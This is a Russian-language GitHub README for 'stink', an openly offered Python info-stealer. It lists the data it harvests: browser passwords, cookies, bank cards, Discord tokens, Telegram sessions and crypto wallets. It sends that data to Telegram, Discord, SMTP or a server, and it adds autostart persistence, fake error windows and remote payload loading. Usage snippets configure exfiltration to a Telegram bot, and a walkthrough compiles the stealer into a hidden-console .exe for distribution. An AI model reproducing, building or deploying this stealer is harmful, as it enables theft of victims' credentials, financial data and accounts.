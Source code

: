 # stink

Стиллер всего лишь в несколько строк с отправкой в Telegram / Server / Discord / SMTP. Без зависимостей, только встроенные библиотеки.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Описание
`stink` уже имеет внушительный функционал, который будет только расширяться.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Определённые модули](#Определённые-модули)
  * [Дополнительные параметры](#Дополнительные-параметры)
* [Создание exe](#Создание-exe)
  * [Создание исполняемого файла](#Создание-исполняемого-файла)
  * [С помощью BAT](#С-помощью-BAT)
  * [С помощью CMD](#С-помощью-CMD)

### Текущие возможности
1. Поддержка следующих браузеров:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Частично)
2. Сбор следующих данных:
   - Скриншот
   - Куки
   - Пароли
   - Банковские карты
   - История
   - Закладки
   - IP-адрес
   - Конфигурация системы
   - Активные процессы
   - Токены Discord
   - Сессии Telegram
   - Хосты FileZilla
   - Крипто кошельки:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Другие 10 кошельков
   - Конфиги Steam
3. Встроенные методы отправки:
   - Telegram
   - Server
   - Discord
   - SMTP
4. Поддержка мультипрофилей браузера.
5. Выполнение в отдельном потоке.
6. Выполнение с использованием многопроцессорности.
7. Возможность добавления в автозагрузку.
8. Вывод окна с фейковой ошибкой.
9. Выполнение без создания каких-либо файлов.
10. Подгрузка и запуск файлов по ссылке.

## Пример использования
### Стандартный
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Определённые модули

Пример со сбором только системных данных и скриншота.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Дополнительные параметры

- `features` - список модулей из `stink.Features`:

  - `passwords` - сбор паролей.

  - `cookies` - сбор куки.

  - `cards` - сбор банковских карт.

  - `history` - сбор истории поиска.

  - `bookmarks` - сбор закладок.

  - `extensions` - сбор расширений браузера.

  - `processes` - сбор активных процессов.

  - `system` - сбор конфигурации системы.

  - `screen` - скриншот.

  - `discord` - сбор токенов Discord.

  - `telegram` – сбор сессий Telegram.

  - `filezilla` – сбор хостов FileZilla.

  - `wallets` – сбор крипто кошельков.

  - `steam` - сбор конфигов Steam.
  

- `utils` - список утилит из `stink.Utils`:

  - `autostart` - добавление в автозагрузку.

  - `message` - вывод фейкового [окна ошибки](https://github.com/FallenAstaroth/stink/wiki/Fake-error).
  

- `senders` - список способов отправки из `stink.Senders`:

  - `server` - отправка на [сервер](https://github.com/FallenAstaroth/stink/wiki/Server).

  - `telegram` - отправка в [Telegram](https://github.com/FallenAstaroth/stink/wiki/Telegram-bot).

  - `discord` - отправка в [Discord](https://github.com/FallenAstaroth/stink/wiki/Discord-hook).

  - `smtp` - отправка на [почту](https://github.com/FallenAstaroth/stink/wiki/Smtp).


- `loaders` - подгрузчики файлов из `stink`:

  - `Loader` - универсальный [подгрузчик](https://github.com/FallenAstaroth/stink/wiki/Files-loader).

## Создание exe
Python является интерпретируемым языком программирования, поэтому мы сначала транслируем его в C, а затем скомпилируем в .exe файл.
Для этого нам понадобится Nuitka.

### Создание исполняемого файла

1. [Скачиваем](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архив.
2. Распаковываем архив и переходим в директорию stink-master.
3. Создаем test.py (или любое другое название) файл в этой же директории со следующим кодом:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### С помощью BAT
1. Запускаем compiler.bat.

### С помощью CMD
1. Открываем `cmd`.
2. Прописываем команду:
```
pip install virtualenv
```
3. Переходим в папку с файлом `test.py`:
```
cd path\to\file
```
4. Создаем виртуальное окружение и активируем его:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Устанавливаем Nuitka:
````
pip install Nuitka==0.6.16.4
````
6. Для уменьшения размера файла дополнительно устанавливаем Zstandard (опционально):
```
pip install zstandard==0.17.0
```
7. Прописываем команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

После выполнения команды получаем test.exe файл со скрытой консолью.
